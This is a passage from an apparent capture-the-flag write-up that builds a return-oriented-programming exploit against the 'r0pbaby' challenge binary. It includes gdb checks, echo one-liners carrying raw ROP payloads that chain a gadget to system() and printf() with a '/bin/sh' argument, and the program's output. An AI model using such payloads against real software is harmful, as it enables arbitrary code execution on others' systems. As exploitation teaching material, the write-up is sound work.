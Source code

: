 It's still crashing in the same place! We don't have to check rax, we know it'll be 0x4343434343434343 ("CCCCCCCC") again. But let's check out if rdi is right:

```

(gdb) <strong>print/x $rdi</strong>
$2 = 0x7ffff79a307c
(gdb) <strong>x/s $rdi</strong>
0x7ffff79a307c: "/bin/sh"
```

All right, the parameter is set properly!

One last step: Replace the return address ("CCCCCCCC") with the address of system 0x00007ffff7883960:

```

$<strong> echo -ne '3\n32\nAAAAAAAA\xc9\xb2\x92\xf7\xff\x7f\x00\x00\x60\x39\x88\xf7\xff\x7f\x00\x00\x7c\x30\x9a\xf7\xff\x7f\x00\x00\n' | ./r0pbaby</strong>
```

<a name="update2"></a>Unfortunately, you can't return into system(). I couldn't figure out why, but on Twitter [Jan Kadijk](https://www.twitter.com/jkadijk) said that it's likely because system() ends when it sees the end of file (EOF) marker, which makes perfect sense.

So in the interest of proving that this actually returns to a function, we'll call printf (0x00007FFFF7892F10) instead:

```

$ <strong>echo -ne '3\n32\nAAAAAAAA\xc9\xb2\x92\xf7\xff\x7f\x00\x00\x10\x2f\x89\xf7\xff\x7f\x00\x00\x7c\x30\x9a\xf7\xff\x7f\x00\x00\n' | ./r0pbaby</strong>

Welcome to an easy Return Oriented Programming challenge...
Menu:
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: Enter bytes to send (max 1024): 1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: Bad choice.
/bin/sh
```

It prints out its first parameter - "/bin/sh" - proving that printf() was called and therefore the return chain works!

## The exploit

Here's the full exploit in Ruby. If you want to run this against your own system, you'll have to calculate the offset of the "/bin/sh" string and the handy-dandy gadget first! Just find them in IDA or objdump or whatever and subtract the address of system() from them.
